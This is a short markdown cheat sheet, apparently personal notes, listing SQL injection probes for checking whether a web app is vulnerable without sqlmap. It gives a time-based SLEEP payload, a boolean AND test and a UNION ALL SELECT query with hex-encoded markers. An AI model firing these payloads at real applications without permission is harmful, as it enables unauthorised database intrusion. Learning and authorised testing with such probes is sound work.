 # sql injection cheat-sheet (of sorts)

i struggle with testing for sql injection points without sqlmap, so i've tried to collect a handful of injection commands that may indicate the webapp in question is vulnerable

###time-based boolean

`id=17 AND SLEEP(5)`

if the webapp sleeps, good indication that the webapp is vuln

###union based blind

`id=17 AND 6793=6793`

###generic union query

`id=-2450 UNION ALL SELECT NULL,CONCAT(0x71626a6b71,0x765865646350576b57536b58766c52534b526248514579716f59476f6
250424d7751426351726d55,0x717a6a6271),NULL,NULL,NULL,NULL,NULL,NULL-- AWCO`




